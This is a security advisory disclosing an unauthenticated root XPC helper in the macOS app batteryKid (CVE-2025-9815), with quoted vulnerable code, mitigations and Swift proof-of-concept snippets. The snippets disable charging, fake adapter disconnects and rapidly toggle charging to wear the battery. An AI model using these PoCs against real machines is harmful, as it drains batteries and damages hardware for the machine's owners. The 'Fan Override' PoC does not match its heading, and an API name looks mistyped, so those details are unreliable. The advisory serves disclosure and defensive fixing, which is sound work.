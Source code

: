 # Local privilege abuse via unauthenticated XPC access to root SMC helper on macOS - (CVE-2025-9815)

## Summary

batteryKid for macOS registers a root-privileged XPC helper (`me.alaneuler.batteryKid.PrivilegeHelper`) that exposes unauthenticated methods to read and write SMC (System Management Controller) keys. Any local user can connect to this helper and perform privileged hardware operations, such as disabling charging or disconnecting the power adapter, without any authorization checks. This can lead to denial of service, degraded hardware performance, and potential battery wear.


## Technical Details

The vulnerable implementation is located in:
- [PrivilegeHelper.swift](https://github.com/alaneuler/batteryKid/blob/79af27c5e62b00dc5a09ddf5dadf61f38100f131/PrivilegeHelper/PrivilegeHelper.swift)
- [SMC.swift](https://github.com/alaneuler/batteryKid/blob/79af27c5e62b00dc5a09ddf5dadf61f38100f131/PrivilegeHelper/SMC.swift)

The privileged helper runs as root and registers a Mach service (`me.alaneuler.batteryKid.PrivilegeHelper`) using NSXPCListener. It then unconditionally accepts all incoming connections:

```swift
  func listener(
    _: NSXPCListener,
    shouldAcceptNewConnection newConnection: NSXPCConnection
  ) -> Bool {
    newConnection.exportedInterface = NSXPCInterface(with: HelperProtocol.self)
    newConnection
      .remoteObjectInterface = NSXPCInterface(with: RemoteApplicationProtocol
        .self)
    newConnection.exportedObject = self
    newConnection.resume()
    return true
  }
```

No validation (such as auditToken or code signing) is performed. 

The helper then exposes functions like:

```
func disableCharging(completion: @escaping (Int) -> Void)
func enableCharging(completion: @escaping (Int) -> Void)
func disablePowerAdapter(completion: @escaping (Int) -> Void)
func enablePowerAdapter(completion: @escaping (Int) -> Void)
```

This writes directly to low-level SMC keys such as:

- `CH0B`: battery charging state (0 = charging, 2 = not charging)
- `CH0I`: AC adapter presence (0 = present, 1 = disconnected)
- `F0Mn`: fan minimum RPM (setting to 0 disables fan)
- `F0Mx`: fan max speed (setting too high stresses fans)

There is no authentication, no sandboxing, and no validation of the calling client. Any local process can connect to the MachService and issue dangerous SMC writes via exposed methods.

## Proof-of-Concepts

You can interact with the XPC service from any unprivileged local process using `pc_connection_create_mach_service()` or `NSXPCConnection`, as long as the Mach service is registered.

#### Fan Override (Force 0 RPM Fan)

>This script sets the minimum fan speed to 0, causing overheating risks.

```swift
import Foundation
import BatteryKidXPC  // assumes the helper client interface is accessible

let connection = NSXPCConnection(machServiceName: "me.alaneuler.batteryKid.PrivilegeHelper", options: [])
connection.remoteObjectInterface = NSXPCInterface(with: HelperProtocol.self)
connection.resume()

let helper = connection.remoteObjectProxyWithErrorHandler { error in
    print("XPC Error: \(error)")
} as? HelperProtocol

helper?.disableCharging { result in
    print("disableCharging returned: \(result)")
}

sleep(1)

helper?.enablePowerAdapter { result in
    print("enablePowerAdapter returned: \(result)")
}

sleep(1)

helper?.disablePowerAdapter { result in
    print("disablePowerAdapter returned: \(result)")
}
```

You could expand this by modifying the helper to expose an XPC method like `setFanMinRPM(value: Int)` which internally writes to SMC key `F0Mn`.

#### Proof-of-Concept disable battery charging

>This PoC alternates SMC register CH0B rapidly to damage charging behavior.

```swift
for _ in 0..<100 {
    helper?.disableCharging { _ in }
    usleep(50000) // 50ms
    helper?.enableCharging { _ in }
    usleep(50000)
}
```

Over time, this could degrade the battery and confuse firmware logic, especially on older Macs where SMC state is more fragile.

#### Fake Power Adapter Disconnect

>This makes the system believe the AC adapter is unplugged, even if it’s not.
```swift
helper?.disablePowerAdapter { result in
    print("System now believes it's on battery power.")
}
```

## Impact

A local, unprivileged attacker can:

- Disable battery charging
- Disconnect the power adapter virtually
- Potentially damage battery health or trigger thermal throttling
- Cause denial of service on laptops (by draining battery)

This breaks macOS’s security boundary between user and system-level operations.

## Mitigation

**Recommended fixes:**

1. Enforce connection validation
Use auditToken in shouldAcceptNewConnection() to restrict access to trusted, signed client apps.

2. Restrict exposed methods
Only expose a minimal, readonly subset of functions to non-privileged clients (if any at all).

3. Add authentication logic
Consider a signed message protocol or authentication handshake before accepting requests.

4. Use SMJobBless properly
Only allow elevated operations after proper user consent and authorization.


References:
- https://github.com/alaneuler/batteryKid/issues/22
- https://www.cve.org/CVERecord?id=CVE-2025-9815

